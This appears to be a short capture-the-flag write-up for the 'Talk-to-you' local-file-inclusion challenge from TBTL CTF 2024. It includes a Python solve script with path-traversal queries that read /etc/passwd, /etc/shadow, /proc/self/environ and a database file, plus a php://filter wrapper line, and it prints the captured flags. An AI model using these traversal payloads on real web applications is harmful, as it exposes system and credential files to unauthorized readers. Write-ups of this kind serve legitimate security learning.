 flag: **TBTL{th15_1S_n0t_53CUR3_5T0r4G3}**

# web/Talk-to-you
`#lfi`

LFI challenge that has a `test.php` rabbit hole 
![Alt text](ctf/Jeopardy/2024/TBTL%20CTF%202024/_attachments/image-2.png)

Standard files can be found and if we just look around we can find the flag stored in `database.sqlite`.

solve script
```python
import requests 

url = "https://tbtl-talk-to-you.chals.io/"
query="?page=/../ctf/index.php"
query="?page=/../../../../../../../../../../proc/self/environ"
query="?page=/../../../../../../../../../../etc/passwd"
query="?page=/../../../../../../../../../../etc/shadow"
query="?page=/../../../../../../../../../../flag.txt"
query="?page=database.sqlite"
# query="?page=php://filter/convert.base64-encode/resource=/etc/test.php"

r = requests.get(url+query)
# r = requests.get(test)

print(r.headers)
print(r.text)
```
![Alt text](_attachments/image-5.png)
flag: **TBTL{4Typ1c41_d4T4B453_u54g3}**
